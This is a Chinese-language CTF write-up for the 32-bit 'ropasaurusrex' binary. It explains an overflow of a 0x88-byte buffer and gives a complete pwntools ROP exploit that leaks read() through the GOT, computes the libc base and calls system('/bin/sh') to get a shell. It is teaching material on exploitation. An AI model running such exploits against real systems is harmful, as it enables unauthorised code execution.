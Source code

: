 ```
```

buf大小只有0x88,但是却允许被读入0x100的字节大小，这明显可以造成缓冲区溢出。



```
wings@sw:~/桌面/Rop$ file ./ropasaurusrex
./ropasaurusrex: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.18, BuildID[sha1]=96997aacd6ee7889b99dc156d83c9d205eb58092, stripped
```

我们还知道的一点是，程序是32位，所以我们不需要像第一个题那样去找寄存器 gadget。

在main函数中有一个write函数，我们可以通过rop，来进行信息泄漏。所以攻击思大概是：

构造payload leak 内存中的一个函数地址，比如 read()

计算libc base

构造payload get shell



```
from pwn import *
debug = 1
elf = ELF('./ropasaurusrex')
if debug == 1:
    libc = ELF('/lib/i386-linux-gnu/libc.so.6')
else:
    libc = ELF('/lib/i386-linux-gnu/libc.so.6')
bof = 0x80483f4 # the vulnerable function
buffer_len = 0x88
context.log_level = 'debug'
#p = remote(args.host, args.port)
#p = process('./ropasaurusrex')
p = remote('127.0.0.1',10002)
payload = ''
payload += 'A' * buffer_len
payload += 'AAAA' # saved ebp
payload += p32(elf.symbols['write'])
payload += p32(bof)
payload += p32(1) # stdout
payload += p32(elf.got['read'])
payload += p32(4) # len
p.send(payload)
resp = p.recvn(4)
read = u32(resp)
libc_base = read - libc.symbols['read']
payload = ''
payload += 'A' * buffer_len
payload += 'AAAA' # saved ebp
payload += p32(libc_base + libc.symbols['system'])
payload += 'AAAA' # cont
payload += p32(libc_base + next(libc.search('/bin/sh')))
p.send(payload)
p.sendline('ls')
p.interactive()
```
